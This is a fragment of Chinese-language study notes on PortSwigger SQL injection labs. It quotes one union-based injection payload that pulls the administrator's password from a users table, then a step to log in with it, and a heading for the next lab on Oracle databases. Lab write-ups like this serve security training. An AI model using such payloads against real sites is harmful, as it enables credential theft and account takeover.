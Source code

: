 爆密码 **category=Gifts' union SELECT '1',password_xsiwdv from users_ddcldd where username_ladwob='administrator'-- **

![image-20250711181428894](portswigger.assets/image-20250711181428894.png)

最后登录账户即可



## 6.实验室：SQL 注入攻击，列出 Oracle 数据库内容

![image-20250711184502893](portswigger.assets/image-20250711184502893.png)
